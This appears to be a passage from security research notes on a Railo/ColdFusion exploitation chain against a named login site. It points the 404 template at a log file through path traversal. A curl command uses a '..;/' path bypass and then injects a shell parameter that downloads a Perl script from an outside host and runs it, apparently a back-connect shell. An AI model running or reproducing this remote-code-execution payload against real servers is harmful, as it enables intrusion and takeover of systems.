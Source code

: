    - ![](_assets/2020-11-26-09-39-06.png)
    - Changing the 404 template file to
      - `/railo-context/../logs/exception.log`
    - ![](_assets/2020-11-26-10-05-24.png)
    - `curl https://login.getbynder.com/..;/railo-context/foo.cfm -d 'SHELL=-c "curl orange.tw/bc.pl | perl -"'`